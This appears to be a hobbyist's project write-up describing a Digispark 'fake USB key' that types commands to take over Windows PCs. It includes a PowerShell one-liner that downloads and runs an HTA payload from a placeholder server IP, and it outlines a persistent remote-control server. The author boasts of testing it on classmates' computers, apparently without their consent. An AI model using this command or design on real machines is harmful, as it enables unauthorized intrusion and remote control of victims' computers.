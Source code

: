 MiniML 1.0
//Copyright Emilien Breton

Demo
----

I recently posted {a video:: https://www.youtube.com/watch?v=vo7N044aZvU} on my {YouTube Channel:: https://www.youtube.com/channel/UCGj6pfxZ0XYJU29XNwXPPxg/featured} showing how easy it is to take control of a computer with a fake USB key. Here it is:
# demo
	<iframe width="560" height="315" src="https:\/\/www.youtube.com\/embed\/vo7N044aZvU" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

Essentially, when you plug the USB key in a PC, it types commands to give control of your computer to the attacker. Once a computer is infected, you will be able to control it by going to a website from another computer or even from a cell phone!


How it Works
------------

The /fake USB key/ is in fact made from an arduino-compatible board, a [Digispark]. You can buy some from {here:: https://www.ebay.com/itm/Digispark-Kickstarter-ATTINY85-General-Micro-USB-Development-Board-Sale/173925228046?hash=item287ec05e0e:g:hQIAAOSwTuJYpT~p}.
""Arduino is an open-source hardware and software company, project and user community that designs and manufactures single-board microcontrollers and microcontroller kits for building digital devices.
{Wikipedia:: https://en.wikipedia.org/wiki/Arduino}""
It also has a custom case, made using /3D printing/. You can {download the STL file here:: ./Case 4 v9.stl}.

Arduino boards are perfect for small electronics projects. However, the [Digispark] is a special /Arduino/ board: it can be programmed to automatically send keystrokes to a computer, and this is the key to easily infect a computer in a matter of seconds. It types commands really fast to download a program from a remote server, which itself copies itself on the computer so that it starts up as soon as the infected computer boots.

After that, the attacker goes to the server's [IP] address on a web browser to connect to it. From the web interface, he can send commands in [JavaScript], [JScript] or even use /CMD/ or /PowerShell/ to do literally everything he wants to the infected computer.

Under the Hood
--------------

What I find most interesting about this project is how it all works /under the hood/. First, let's talk about the commands typed by the "USB" key (the {Digispark:: https://www.ebay.com/itm/Digispark-Kickstarter-ATTINY85-General-Micro-USB-Development-Board-Sale/173925228046?hash=item287ec05e0e:g:hQIAAOSwTuJYpT~p}) to easily infect a computer. It opens up /Windows PowerShell/ using the /Run/ prompt, and then types the following command:
	[[
	$p = "$env:temp/client.hta";(New-Object System.Net.WebClient).DownloadFile("http:\/\/ /SERVER IP/ /client.hta", $p);cd $env:temp;start -PSPath $p;
	]]
What this command does is simple: it navigates to "http:\/\/ /SERVER IP/ \/client.hta" and downloads the client.hta file onto the user's hard drive, in the [TEMP] directory. Once this is done, it executes it, which copies it on the user's startup folder (so that it runs every time the machine boots up) and constantly pings the server using a [POST] request to see if a command is available.
""In computing, POST is a request method supported by HTTP used by the World Wide Web. By design, the POST request method requests that a web server accepts the data enclosed in the body of the request message, most likely for storing it. It is often used when uploading a file or when submitting a completed web form.
{Wikipedia:: https://en.wikipedia.org/wiki/POST_(HTTP)}""


Here is how the /server/ works:
	* When the server is sent a [POST] request, it looks up in its database to see if a command is ready to be sent to the infected computer. If so, it sends the [JavaScript] command as a response to the [POST] request.
	* When the server is sent a [GET] request with the corresponding /password/, it just responds with the webpage for the attacker, in order to be able to send commands wirelessly. If the [GET] request contains an [IP] address and a command, then it is stored in the database, waiting for an infected computer to ask for its command. As said previously, when this happens, the command is sent to the victim computer for it to execute.
	* Finally, when the server is asked for the [log], it sends all the commands from the database with their responses from the infected computer, so that they can be displayed on the attacker's web interface.


Final Words
-----------

This is a project that took me a while to polish down to its final shape. Now that it is completed, I am really happy with the result! Even if I do not recommend you do so, I have tested it successfully on my classmates' computers, and their reactions were priceless.
